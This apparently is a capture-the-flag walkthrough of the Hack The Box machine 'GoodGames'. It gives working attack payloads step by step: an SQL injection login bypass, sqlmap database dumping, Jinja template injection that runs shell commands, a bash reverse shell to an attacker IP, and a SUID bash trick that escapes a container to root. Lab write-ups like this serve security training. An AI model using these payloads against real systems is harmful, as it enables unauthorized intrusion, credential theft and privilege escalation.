# [GoodGames](https://app.hackthebox.com/machines/GoodGames)

```bash
nmap -p- --min-rate 10000 10.10.11.130 -Pn    
```



I just see port (80) is open, let's do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.11.130
```




From this nmap scan, I just add this ip address into '/etc/hosts' file as **'goodgames.htb'** domain.




I just enumerate this web application via `SQL Injection` to bypass authentication by adding `' or 1=1-- -;`




I also enumerate that there's UNION based SQL Injection attack.




Let's use `sqlmap` to automate this process and dump all the stuff from database.

```bash
sqlmap -r login.req --level 5 --risk 3 --technique "U"
```


I enumerate all database via adding `--dbs` to get db 'main',`--tables` to get table "user", `--dump` to get all data.

```bash
sqlmap -r login.req --level 5 --risk 3 --technique "U" -D "main" -T "user" --dump
```




I crack this password via [Crackstation](https://crackstation.net).




There's another website (internal) which can be seen beyond of 'top dashboard'. 




That's page which redirects into 'internal-administration.goodgames.htb' and I add this domain into '/etc/hosts' file.

I login here via the same credentials.

admin: superadministrator




I can do modifications on this page for 'admin' user.




As I know that's Python language, I will try SSTI payloads for Python template structured languages.
So, If I add SSTI(Server-Side Template Injection) payload `{{ 7 * 7 }}`, it will be `eval`uated.




Let's add our system commands into here.
```bash
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```




Now, it's time for reverse shell payload.
```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.7/1337 0>&1"').read() }}   
```




Hola, I got reverse shell from port (1337).




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




user.txt




**'INTERESTING PORT SCAN'** I will do port scanning as because this machine's ip address is '172.19.0.2', I see that real machine is '172.19.0.1', that's why I can try direct SSH into here


I used the same password (superadministrator)




From `root` user of container I see that while this user create a file , automatically owner of this file become real `root` user.

If I create `bash` file, it will be `root` user as owner, If I add SUID binary, I can get root shell.


1.First, we need to run below command via `augustus` user.
```bash
cp /bin/bash .
```



2.Second, we need to back into root user for container and run below commands.
```bash
chown root:root bash 
chmod 4777 bash  #add suid binary, means file creator can run this via sudo privileges
```



3.Come back to shell for `augustus` user and run `bash -p` to be root user of machine.




root.txt

